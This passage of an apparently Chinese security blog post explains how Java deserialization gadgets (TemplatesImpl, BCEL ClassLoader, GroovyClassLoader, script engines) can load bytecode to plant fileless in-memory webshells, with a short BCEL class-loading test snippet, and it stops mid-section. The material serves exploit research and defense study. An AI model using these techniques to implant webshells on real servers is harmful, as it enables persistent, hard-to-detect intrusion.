# 反序列化打内存马知一二-先知社区

> **来源**: https://xz.aliyun.com/news/18757  
> **文章ID**: 18757

---



初学反序列化注入内存马，心中有诸多不解，看了很多文章，都没有说清一个点 ——“无文件落地”到底如何注入内存马？

最近看到了一篇优秀的文章，解决了我在反序列化注入内存马的原理时候疑惑。

我当时在思考，“如何通过反序列化注入内存马？”，发现这样我不好理解，后来我转换思路，“为什么反序列化可以注入内存马？”，这样思考问题使得我豁然开朗。于是我究其本质原因，在看完很多文章后，发现@Ruilin的这篇《Java单向代码执行链配合的动态代码上下文执行》，让我受益匪浅。

从这篇文章入手，标题这里有两个概念，**单向代码执行链和动态代码上下文执行。**在理解这两个概念之前，需要知道Java的是一门什么样的语言。

## 编译型语言和解释型语言

Java是一门“编译型”语言（严格来说Java是编译—解释型语言），其代码执行需要经过**预编译**步骤——开发者编写的`.java`源代码必须先通过`javac`编译器编译成字节码（`.class`）文件，然后才能被JVM加载并执行。这个编译过程是静态的，必须在程序运行前完成。

像Python、JavaScript等则是解释型语言，特点是代码不需要编译，而是直接由解释器（如浏览器引擎）在程序执行时直接解析代码并执行。例如，`eval("console.log('动态执行')")`。

## 单向代码执行链

像CC链后半部分，代码执行有两个方向可以走，一是`TemplatesImpl`动态加载字节码，二是`InvokerTransformer`的套娃反射调用。

对于第二种办法，在分析和使用过程中我们可以发现由于它们的执行是属于能返回对象并可以在进行对象调用的链式结构，我们无法在中途去对执行的代码进行操作，受限于上一步代码返回的结果。比如说，`Runtime.getRuntime().exec()`，在没有上下文环境时，我们无法直接使用这行代码，在链子中使用其进行命令执行的时候，还需要对私有的`getRuntime()`方法通过反射`setAccessible(true)`。因此，这样执行链就很单向连贯，固定套路，执行死代码，并且返回值也无法供上下文使用。

众所周知的，内存马需要在上下文环境中拿到`request`和`response`来发挥作用。显然，对于单向代码执行链来说是无法满足内存马的需求的。

在大多数反序列化漏洞进行回显的时候，单向代码执行链似乎也很难起到大作用，如果目标出网，那弹shell大快人心；如果不出网呢，将回显写入txt中来读，未免太low。

于是乎，对于实战场景中如果能同代码上下文进行交互，或者说在代码上下文中动态加载类的话，那么很多问题就会迎刃而解。

## 动态代码上下文执行

如何让我们的像执行的代码在代码上下文环境中执行呢？

那就得让其**在程序运行的期间，执行我们的恶意代码**，这样我们恶意代码就可以在代码上下文中存活了。

之前说了，Java想执行代码就得通过编译的方式，但是Java又不想让自己那么笨重，于是就有了一些实现动态性的机制。

比如，反射、表达式、Javassit、脚本引擎、类加载等。

在反序列化打内存马中，有几个是值得拿出来好好唠唠嗑的。下面重点来聊聊类加载、表达式、脚本引擎。

### \*.defineClass打内存马



如果你看过某些优秀的内存马工具生成的马子，你会发现它们大多将核心代码写在一个方法中，然后通过构造函数调用这个方法。那这里有个点需要我们来思考了，为什么要写在调用点要写在构造函数中呢？

我们知道，构造函数，它在对象初始化的时候会被调用，那由此我们可以思考，什么会造成对象初始化呢？  
`new`是一种，类加载再`newInstance`也是一种。下面探讨，为什么类加载会造成类初始化？

说到类加载，其中的一种情况是**将字节码加载到内存中，并将其转换为可执行的Java对象**。这个操作，离不开一个东西，叫**类加载器——**`ClassLoader`**。**

`ClassLoader`会告诉Java虚拟机如何加载这个类。Java默认的`ClassLoader`就是根据类名来加载类，这个类名是类完整路径，如`java.lang.Runtime`。

> 在Java中，每个类都由类加载器加载，并在运行时被创建为一个Class对象。类加载器负责从文件系统、网络或其他来源中加载类的字节码，并将其转换为可执行的Java对象。类加载器还负责解析类的依赖关系，即加载所需的其他类。

类加载器会做如下工作：

1. 加载：根据类的全限定名（包括包路径和类名），定位并读取类文件的字节码。
2. 链接：将类的字节码转换为可以在虚拟机中运行的格式。
3. 初始化：执行类的初始化代码，包括**静态变量的赋值和静态代码块的执行**。（注意这里不会造成构造函数的触发）

因此，我们可以知道通过`ClassLoader`加载字节码后会实现类初始化从而执行内存马的逻辑。

我们跟进这个`ClassLoader`看看内部有哪些方法。



可以重点关注的，是以上三个方法。我在《Java安全漫谈》中学到过，这三者的关系。

  
可以看到前面两步都是为第三步`defineClass`做铺垫的，如果我们已经有了指定的字节码`.class`那就可以直接通过`defineClass`来加载了。跟进看看`defineClass`的实现。



这里作者给我们写好注释了，这几个形参的含义以及返回值如下：

* `name`：类的二进制名称（如`com.example.nu11Class`）,可为`null`。
* `b`：存储类数据的字节数组（通常是`.class`文件的内容）。
* `off`：字节数组中类数据的起始偏移量（从`b[off]`开始读取）。
* `len`：类数据的长度（从`off`开始，共读取`len`个字节）。

返回从指定字节数据创建的`Class`对象，改对象代表了加载后的类。

由此，我们完全可以先将内存马转为字节码然后利用`defineClass`将其加载到代码上下文环境中。

但这里有个难点，`defineClass`为保护函数，利用起来相对困难，那下面的目的就在于找一些类中存在访问权限为`public`的`defineClass`。

#### TemplatesImpl

首先是这个非常好用的类——`TemplatesImpl`，它就在JDK中。

这个类有个经典的调用链：



并且在559行会存在对象初始化的操作，这里才会去调用对象的构造函数。注意是无参构造器。这是`newInstance`实例化对象时规定的，没有无参构造器将会抛出异常。



由此，我们就可以通过`TemplatesImpl`去加载我们内存马的字节码，并且在这个过程中，它会初始化对象，调用构造函数，走我们内存马的逻辑。

我们要做的其实不过是去在反序列化中用到这个`TemplatesImpl`而已，将其放置到反序列化链中，像这样的链子有很多CCK1/K2等等。

#### BCEL ClassLoader

在JDK8u251之前，原生JDK中也带这个类，也很好用。

给出一段测试代码：

```
package com.test;


import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.io.IOException;

public class test11 {
    public static void main(String[] args) throws ClassNotFoundException, IOException, InstantiationException, IllegalAccessException {
        JavaClass javaClass = Repository.lookupClass(test3.class);
        String encode = "$$BCEL$$" + Utility.encode(javaClass.getBytes(),true);
        System.out.println(encode);
//        new ClassLoader().loadClass(encode).newInstance();

        Class.forName(encode,true,new ClassLoader());
    }
}

```

这里的`test3`：



运行测试代码：



你会发现静态代码块会被触发，为什么呢？  
我们可以跟进BCEL内部源码看看实现。




在上文中，我们已经说了JVM加载一个类会首先去通过类加载器的`loadClass`方法去找到这个类，而我们的代码中`Class.forName`就会进行一步类加载。

再看我们的`Class.forName`的参数，第一个是类名，第二个是判断是否指定加载器，第三个指定的加载器。

由此，这里会通过`com.sun.org.apache.bcel.internal.util.ClassLoader#loadClass`去找类，这个`loadClass`内部帮你找类并且返回对象有个条件，就是你给我的类名需要以`$$BCEL$$`开头，这也就是为什么我们的测试代码中会有如下这一步了。





接下来，会对传入的类名去掉`$$BCEL$$`进行解析。我们要做的只不过是将我们恶意的字节码通过`BCEL`的类库进行修改转为`BCEL`格式后会通过`creatClass`中的相关逻辑进行解析返回对象。



返回了对象但是并不会触发构造函数，因为没有对象初始化，只是类初始化了，仅会使静态代码块被调用。

因此这里记住有个坑，**如果你的反序列化链子中是通过BCEL来加载内存马的字节码的，那么你需要注意你的内存马核心调用逻辑要写在静态代码块中**。

反序列化链子中有BCEL的，最经典的是fastjson不出网的打法。

#### Groovy ClassLoader

非Java自身的类，需要导入一个依赖。

```
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>2.4.15</version>
</dependency>
```

这个外部类，也是有自己的反序列化链路的，本文不谈，只来聊聊它的类加载。



跟进源代码你会发现，`GroovyClassLoader`是继承了`URLClassLoader`，所以它本身就是一个类加载器。

它的无参构造器，从线程上下文中拿到类加载器，这个拿到的是当前上下文中的最顶层的类加载器了。这里一笔带过，再说下去就得去翻翻双亲委派模型的事了。



`GroovyClassLoader`是有一个`public`访问权限的`defineClass`的，因此，我们也可以把它放在反序列化链路中来加载我们的内存马字节码。



### 表达式联动脚本引擎打内存马

经典的组合拳为**表达式+JS引擎+任意字节码加载。**​

#### 脚本引擎

脚本引擎是Java动态性的体现之一，最常用的脚本引擎是`javax.script.ScriptEngineManager`，但是在JDK15之后阉割掉了“nashorn”，导致引擎没有了。且用且珍惜。

可以跟进`javax.script.ScriptEngineManager`内部，看看里面的代码实现。

